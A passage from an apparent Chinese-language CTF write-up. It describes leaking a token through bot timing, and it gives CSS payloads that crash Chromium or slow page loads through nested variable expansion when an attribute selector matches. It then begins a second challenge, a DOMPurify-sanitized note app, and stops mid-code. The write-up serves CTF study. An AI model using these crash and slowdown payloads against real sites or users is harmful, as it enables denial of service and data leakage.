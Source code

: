 如果 browserOpen 的話，可以從 response 中得知。因此看到題目後我就有個想法，如果讓 Chromium crash 會發生什麼事？是不是可以透過這個方式來 leak 出 token？

舉例來說，假如我們寫一條 CSS 是 `h1[data-token^="0"] { /*crash*/ }`，來讓 Chromium crash，那或許就可以加快或是拖慢 bot 執行的時間，進而得知這個 selector 是否符合。

後來是隊友從 Chromium issues 中找到了讓 Chromium crash 的方式：

``` html
<style>
  h1[data-token^="a"] {
    --c1: color-mix(in srgb, blue 50%, red);
    --c2: srgb(from var(--c1) r g b);
    background-color: var(--c2);
  }
</style>
```

在賽後討論中也看到 Discord 內有人貼了 payload，讓網頁載入變得超級慢，也可以達到類似的效果，這是 @Trixter 貼的：

``` html
<style>
  html:has([data-token^="a"]) {
      --a: url(/?1),url(/?1),url(/?1),url(/?1),url(/?1);
      --b: var(--a),var(--a),var(--a),var(--a),var(--a);
      --c: var(--b),var(--b),var(--b),var(--b),var(--b);
      --d: var(--c),var(--c),var(--c),var(--c),var(--c);
      --e: var(--d),var(--d),var(--d),var(--d),var(--d);
      --f: var(--e),var(--e),var(--e),var(--e),var(--e);
  }
</style>
<style>
  *{
    background-image: var(--f)
  }
</style>
```

有點像是 Billion laughs attack 那樣，透過不斷重複構造出一個超大 payload，就可以拖慢速度。

拖慢速度以後就可以用剛剛講過的方式去測量網頁載入所需要的時間，因為超過 10 秒的話會直接 timeout，藉由這點來 leak 出 flag。
 
## web/safestlist (2 solves)

這題是修改自之前我有解過的一個題目：[SekaiCTF 2022 筆記與 concurrent limit](https://blog.huli.tw/2022/10/08/sekaictf2022-safelist-and-connection/)，我簡單描述一下修改後的版本。

這個題目是一個經典的 note app，你可以建立新的 note，但問題是 note 內容會先經過 `DOMPurify.sanitize`，所以沒辦法 XSS。而 CSP 的部分是 `default-src 'self'`，只能往題目的 origin 發送請求。

也就是說，你沒辦法把請求往外傳。

除了建立 note 以外，還可以刪除 note，是用 note 的 index 來刪的。

而這題的核心是這一段建立 note 的程式碼：

```js
fastify.post("/create", (req, reply) => {
    const { text } = req.body;
    if (!text || typeof text !== "string") {
        return reply.type("text/html").send("Missing text");
    }

    const userNotes = notes.get(req.cookies.id) ?? [];
    const totalLen = userNotes.reduce((prev, curr) => prev + curr.length, 0);

    const newLen = totalLen + text.length;
    if (newLen > 16384) {
        return reply.redirect(`/?message=Cannot add, please delete some notes first (${newLen} > 16384 chars)`);
```